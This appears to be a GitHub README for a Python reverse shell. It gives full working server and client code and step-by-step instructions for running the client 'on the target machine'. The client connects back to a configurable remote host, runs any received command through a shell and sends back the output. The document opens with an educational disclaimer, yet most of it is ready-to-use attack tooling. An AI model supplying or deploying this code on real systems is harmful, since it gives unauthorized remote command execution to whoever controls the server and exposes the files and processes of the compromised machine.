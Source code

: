 
# Python Reverse Shell

This repository contains a simple Python-based reverse shell implementation. It includes a server component and a client component for establishing a connection and executing commands.

## Disclaimer
This project is for **educational purposes only**. Do not use this on any system without proper authorization. Unauthorized use is illegal and unethical.

---

## Server Component

The **server** listens for connections from the client, sends commands, and displays the output of those commands.

### Code
```python
import socket

HOST = '127.0.0.1'  # Change to your IP address, e.g., '192.168.43.82'
PORT = 8081         # Change to your desired port, e.g., 2222

server = socket.socket()
server.bind((HOST, PORT))

print('[+] Server Started')
print('[+] Listening For Client Connection ...')

server.listen(1)
client, client_addr = server.accept()
print(f'[+] {client_addr} Client connected to the server')

while True:
    command = input('Enter Command : ')
    command = command.encode()
    client.send(command)
    print('[+] Command sent')
    output = client.recv(1024)
    output = output.decode()
    print(f"Output: {output}")
```

### Usage
1. Replace `HOST` and `PORT` with the desired IP address and port.
2. Run the server script on your machine.
3. Wait for a client connection.

---

## Client Component

The **client** connects to the server, executes the received commands, and sends back the output.

### Code
```python
import socket
import subprocess

REMOTE_HOST = '127.0.0.1'  # Change to server IP, e.g., '192.168.43.82'
REMOTE_PORT = 8081         # Change to match the server port, e.g., 2222

client = socket.socket()

print("[-] Connection Initiating...")
client.connect((REMOTE_HOST, REMOTE_PORT))
print("[-] Connection initiated!")

while True:
    print("[-] Awaiting commands...")
    command = client.recv(1024)
    command = command.decode()
    op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
    output = op.stdout.read()
    output_error = op.stderr.read()
    print("[-] Sending response...")
    client.send(output + output_error)
```

### Usage
1. Replace `REMOTE_HOST` and `REMOTE_PORT` with the server's IP address and port.
2. Run the client script on the target machine.

---

## Example Usage

### Setup

1. **Prepare the scripts**:
   - Save the **Server Component** code in a file named `server.py`.
   - Save the **Client Component** code in a file named `client.py`.

2. **Run the Server**:
   - Open a terminal on the server machine.
   - Execute `python3 server.py`. The server will start and wait for a connection.

3. **Run the Client**:
   - On the target machine, execute `python3 client.py`. The client will connect to the server.

4. **Send Commands**:
   - In the server terminal, type commands like `whoami` or `ls` and view the output.

---

## Functionalities

1. **Remote Command Execution**
   - Run shell commands like `whoami`, `ls`, or `ipconfig`.

2. **File Management**
   - List, delete, or read files on the client system.

3. **Network Information**
   - View the client’s network configuration and active connections.

4. **Process Management**
   - List or terminate running processes.

5. **Custom Scripts**
   - Execute scripts or commands already present on the client machine.

---

## Ethical Applications

1. **Penetration Testing**
   - Assess the security of your systems by simulating attacks.

2. **Education**
   - Learn networking and cybersecurity concepts.

3. **System Administration**
   - Remotely manage authorized systems.

---

## Risks and Precautions

### Risks:
- **Malicious Use**: Unauthorized use could lead to data theft, system compromise, or legal consequences.
- **Detection**: Reverse shells may be flagged by antivirus software.

### Precautions:
- Only use on authorized systems.
- Secure communication with encryption (e.g., SSL/TLS).
- Restrict access to specific IPs.
- Monitor and log all activity.

---

## Important Notes

- Always use the same IP and port in both scripts.
- Test locally using `127.0.0.1` and the same machine.

---

## Requirements

- Python 3.x
- Basic knowledge of networking and Python

---

## License

This project is licensed under the MIT License. See the LICENSE file for details.
